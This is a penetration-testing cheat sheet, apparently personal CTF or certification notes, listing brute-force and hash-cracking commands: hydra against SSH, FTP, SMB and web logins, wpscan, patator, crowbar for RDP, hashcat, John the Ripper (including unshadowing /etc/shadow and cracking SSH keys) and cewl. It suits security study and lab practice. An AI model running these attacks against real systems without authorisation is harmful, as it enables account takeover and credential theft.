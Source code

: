 # Bruteforce

<details>

<summary>Wordlists</summary>

```
/usr/share/wordlists/rockyou.txt
```

```
/usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt
```

</details>

<details>

<summary>Hashcat</summary>

1. Identify hashes using hashid or hash-identifier

```
hashid -mj to_crack
```

2. Using hashcat to identify the hash

```
hashcat --identify to_crack
```

3. See example hashes [here](https://hashcat.net/wiki/doku.php?id=example_hashes)
4. `hashcat -m 13100 -a 0 kerberos.hash /usr/share/wordlists/rockyou.txt`

</details>

<details>

<summary>Hydra</summary>

#### SSH/FTP/SMB

```bash
hydra -t 4 -V -f -l lennie -P /usr/share/wordlists/rockyou.txt 10.10.13.33 ssh/ftp/smb
```

#### Website login

```bash
# HTTP site
hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid credentials" -L <wordlist of username> -P <wordlist of passwords> -f -V

# HTTPS site
hydra streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed" -L users -P passwords -f -V
```

* Before bruteforcing with `rockyou.txt`, bruteforce with wordlist using `cewl http://10.11.1.39/otrs/index.pl --write wordlist.txt`.&#x20;

#### Wp-admin login

```bash
hydra 192.168.126.52 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.126.52%2Fwp-admin%2F&testcookie=1:is incorrect" -l ben -P /usr/share/wordlists/rockyou.txt -f -V
```

#### Digest Auth

```
hydra -l "carlos" -P /usr/share/wordlists/rockyou.txt www.spiros.ml http-get /auth/digest.php -S
```

-S is for HTTPS sites

#### Basic Auth

```bash
hydra -l "peter" -P /usr/share/wordlists/rockyou.txt www.spiros.ml http-head /auth/basic.php -S
```

</details>

<details>

<summary>Wordpress</summary>

* Quick (but need change username in script)
* target need put in full path (eg: http:sandbox.local)

```bash
XBruteForcer -l target.txt -p passwords.txt
```

```bash
wpscan --url https://192.168.242.148:12380/blogblog --passwords /usr/share/wordlists/rockyou.txt --usernames usernames.txt --password-attack wp-login --disable-tls-checks -t 100
```

* Specifying `wp-login` as password attack will increase speed

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt sunset-midnight -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
```

* Slow

```bash
wpscan --url http://test.local/ --passwords passwords.txt
```

</details>

<details>

<summary>phpMyAdmin</summary>

```bash
patator.py http_fuzz proxy_type=socks5 proxy=localhost:1080 url=http://IP/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&target=index.php&lang=en&token=' 0=/usr/share/wordlists/rockyou.txt before_urls=http://IP/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Access denied for user '
```

</details>

<details>

<summary>John the Ripper</summary>

#### Linux hashes

```bash
unshadow /etc/passwd /etc/shadow > crackme
```

#### MD5

```bash
john crackme --wordlist=rockyou.txt --format=Raw-MD5
```

#### Convert password protected zip file to a crackable format

```bash
zip2john flag.zip
```

`flag.txt:$pkzip$1220302444be14f804203043c6619dcbac70ed43a3261eee8f327de5478afd3bf9a0b01016e2610a16d05221bf46bfede58693a220832b6b498350b173*$/pkzip$:flag.txt:flag.zip::flag.zip` is the output. Need to remove the everything before the first quotation if using Hashcat to crack!

#### SSH

```bash
python ssh2john.py id_rsa > id_rsa.hash
```

#### ASC keys

```bash
gpg2john tryhackme.asc > hash
```

#### Specific users

```bash
john --wordlist=rockyou.txt -users=victim,victim2 crackme
```

</details>

<details>

<summary>Crowbar</summary>

#### Bruteforce RDP

```bash
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

```bash
proxychains -q crowbar -b rdp -S new_remaining_ips -U usernames.txt -C passwords.txt -n 4
```

</details>

<details>

<summary>Cewl (scraping website)</summary>

<pre class="language-bash"><code class="lang-bash"><strong>cewl -m 9 -d 12 -w wordlist.txt www.megacorpone.com
</strong></code></pre>

Will obtain all words that are >9 characters and <12 characters and save it to wordlist.txt

</details>

<details>

<summary>Stegseek</summary>

```bash
stegseek image.jpg
```

</details>
